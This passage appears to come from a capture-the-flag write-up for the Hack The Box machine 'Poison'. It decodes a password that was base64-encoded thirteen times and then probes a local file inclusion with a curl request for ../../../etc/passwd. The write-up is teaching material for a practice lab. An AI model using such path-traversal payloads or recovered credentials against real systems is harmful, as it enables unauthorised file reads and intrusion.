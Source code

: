 13 times eh? Well let's compile a quick python script to quickly decode this instead of doing it manually.

```python
import base64


string = """
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo= """

def decode(b64_string, iterations):
    i = 0
    while i < iterations:
        b64_string = base64.b64decode(b64_string).decode('utf-8')
        i += 1
    print(b64_string)

decode(string, 13)
```

Testing the script and running:

```
root@kali:~/htb/poison# python3 decode.py 
Charix!2#4%6&8(0
```

Voila! We have a password, however we still need a username. 

Let's test for an LFI.

```
root@kali:~/htb/poison# curl http://10.10.10.84/browse.php?file=../../../etc/passwd
<br />
<b>Warning</b>:  include(../../../etc/passwd): failed to open stream: No such file or directory in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '../../../etc/passwd' for inclusion (include_path='.:/usr/local/www/apache24/data') in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b><br />
```
